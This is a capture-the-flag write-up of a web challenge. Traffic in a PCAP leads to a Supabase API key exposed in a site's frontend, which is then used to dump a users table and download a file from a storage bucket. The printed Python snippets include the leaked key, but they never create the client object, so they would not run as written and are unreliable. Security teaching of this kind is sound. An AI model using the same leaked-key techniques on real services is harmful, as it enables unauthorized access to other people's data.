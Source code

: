 ## Introduction

Given a PCAP file, find the girl's phone number and her hair color.
If you are not familiar with PCAP files, It is a file that contains network traffic, and it can be opened using Wireshark.

![](images/image.png)

Although it is not a forensics challenge, in fact it is a web challenge, but I think a little of knowledge of how to use Wireshark is a great to have.

## Analysis

First, we need to open the PCAP file using Wireshark. It is a really simple one, only contains HTTP Requests to different websites. Some of them are familiar like Youtube, Twitter, Linkedin... And only one of them is not familiar, which is `https://0nly-friends.vercel.app/login`.

![](images/s1.png)

Going through the Application, we see a process of registeration and login, and once you have logged in you can see a file upload form that looks like it is static. 
Going through the enumeration, once we open the console, or opening the web page code we can see this comment:

![](images/s2.png)

Going back and testing authentication endpoints we can see such in the registeration endpoint:

![](images/s3.png)

the endpoint (`POST`, `?columns=...`, `/users`) gives an impression of SQL code, and since the note tells about a bad practice that the developer used, we can clearly see that there's an API key being send alongside the request, which doesn't look like a healthy practice clearly.

Saving the values for later:
- **endpoint**: `https://mmwaytrwcxmwbvzonihf.supabase.co/rest/v1/users`
- **apikey**: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6Im1td2F5dHJ3Y3htd2J2em9uaWhmIiwicm9sZSI6ImFub24iLCJpYXQiOjE2NzUyMDQwMjYsImV4cCI6MTk5MDc4MDAyNn0.J-ghVT7RRkZ1vsPnKSSdBDOfLBHtdkhfw5B_kquPXNo`

Assuming we know that endpoint and we have the API key, we can try to send a request to the endpoint tryin a `SELECT * FROM users` kind query, and we get the following response using postman:

![](images/s4.png)

what interests us is this part:
```json
    {
        "id": 7,
        "created_at": "2023-02-01T01:26:59+00:00",
        "phone": null,
        "email": "hey there, hacker",
        "name": "since you have reached this, how about you check the storage, try the documentation or something?"
    },
    {
        "id": 5,
        "created_at": "2023-02-01T00:25:15.335812+00:00",
        "phone": "koukou_girl_xe_got",
        "email": "8ae8eca9e20d09699af4bdec5cc987@gmail.com",
        "name": "koukou"
    },
```

We can see a flag-like value for one of the phone fields: `koukou_girl_xe_got`, we can assume that is it our first half of the flag, where it asks about the phone number of the girl.

And we see a note just above it, which says: `hey there, hacker, since you have reached this, how about you check the storage, try the documentation or something?`

Talking about storage, and seing a File form in the website, even though static, and looking at the endpoint itself, which resembles to `Supabase`, which is for who doesn't know, a `Firebase` alternative, or basically a backend as a service that provides a set of tools like a database, authentication, storage, etc.

Our next target based on what we have, will be to check what do we have in the storage account, since we already have the API key. the question is how?

Googling how to interact with Supabase, there's already a list of SDKs we can use [here](https://supabase.com/docs)

![](images/s5.png)

## Solving 

Heading for the [Python One](https://supabase.com/docs/reference/python/select), we see a list of functionalities we can use, like listing buckets, listing files, uploading files, downloading them, etc.

![](images/s6.png)

For who doesn't know, a bucket is a container for objects stored in a cloud service, so if there's a file we need to find, it will be located inside a bucket, and getting a file requires knowing which bucket it is located in. So our first step will be to list all the buckets, and then list all the files inside each bucket.

We can use the following code to do that (*after installing the SDK*):

```python

from supabase import create_client, Client

url = "https://mmwaytrwcxmwbvzonihf.supabase.co"
key = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6Im1td2F5dHJ3Y3htd2J2em9uaWhmIiwicm9sZSI6ImFub24iLCJpYXQiOjE2NzUyMDQwMjYsImV4cCI6MTk5MDc4MDAyNn0.J-ghVT7RRkZ1vsPnKSSdBDOfLBHtdkhfw5B_kquPXNo"

def get_buckets():
    r = supabase.storage().list_buckets()
    print(r)

get_buckets()
```

It returns this output:
```
[SyncBucket(id='images', name='images', owner='', public=True, created_at=datetime.datetime(2023, 2, 1, 0, 35, 39, 997380, tzinfo=tzutc()), updated_at=datetime.datetime(2023, 2, 1, 0, 35, 39, 997380, tzinfo=tzutc()))]
```

Which is an array of a single bucket, which is `images`. So we can use the following code to list all the files inside the bucket:

```python
from supabase import create_client, Client

url = "https://mmwaytrwcxmwbvzonihf.supabase.co"
key = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6Im1td2F5dHJ3Y3htd2J2em9uaWhmIiwicm9sZSI6ImFub24iLCJpYXQiOjE2NzUyMDQwMjYsImV4cCI6MTk5MDc4MDAyNn0.J-ghVT7RRkZ1vsPnKSSdBDOfLBHtdkhfw5B_kquPXNo"

def get_bucket_content(bucket_name):
    r = supabase.storage().from_(bucket_name).list()
    print(r)

get_bucket_content("images")
```

Which returns this output:
```
[{'name': '.emptyFolderPlaceholder', 'id': '6d473cec-1cc0-4493-b8dd-aba8cf5dffce', 'updated_at': '2023-02-01T02:07:15.420388+00:00', 'created_at': '2023-02-01T02:07:15.337901+00:00', 'last_accessed_at': '2023-02-01T02:07:15.337901+00:00', 'metadata': {'eTag': '"d41d8cd98f00b204e9800998ecf8427e"', 'size': 0, 'mimetype': 'application/octet-stream', 'cacheControl': 'max-age=3600', 'lastModified': '2023-02-01T02:07:16.000Z', 'contentLength': 0, 'httpStatusCode': 200}}, {'name': 'looking-for-me.png', 'id': 'f00dc580-7425-48d3-ab30-9a8568c6fdf5', 'updated_at': '2023-02-01T02:07:38.251022+00:00', 'created_at': '2023-02-01T02:07:21.972737+00:00', 'last_accessed_at': '2023-02-01T02:07:38.01+00:00', 'metadata': {'eTag': '"dcb0925bef8e66ea67bcb56e7e01d417"', 'size': 274318, 'mimetype': 'image/png', 'cacheControl': 'max-age=3600', 'lastModified': '2023-02-01T02:07:39.000Z', 'contentLength': 274318, 'httpStatusCode': 200}}]
```

Which is an array of a single large object, that his name - what we basically need - is `looking-for-me.png`, so we can use the following code to download the file and save it with the same name in the current directory:

```python
from supabase import create_client, Client

url = "https://mmwaytrwcxmwbvzonihf.supabase.co"
key = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6Im1td2F5dHJ3Y3htd2J2em9uaWhmIiwicm9sZSI6ImFub24iLCJpYXQiOjE2NzUyMDQwMjYsImV4cCI6MTk5MDc4MDAyNn0.J-ghVT7RRkZ1vsPnKSSdBDOfLBHtdkhfw5B_kquPXNo"


def download_file(bucket_name, file_name):
    r = supabase.storage().from_(bucket_name).download(file_name)
    open(file_name, 'wb').write(r)

download_file("images", "looking-for-me.png")
```

And the code executes successfully, and we can see the file in the current directory.

![](images/s7.png)

## Conclusion

Plus having a general based skills like scripting, enumeration, using tools like Wireshark and reading documentation no matter your target was, is the key to success in every mission.


## Note

Although Supabase is restricted regarding using its API Keys, in this CTF I enabled public access to the database and the storage service just for the sake of the demo, with blocking all Mutation requests, the moral of the story API Keys don't belong to the frontend that's why backends matter.

## Flag
> `ENIT{koukou_girl_xe_got_r3d_Ha1R_N_dont_put_S3Krets_1n_fR0nt}`






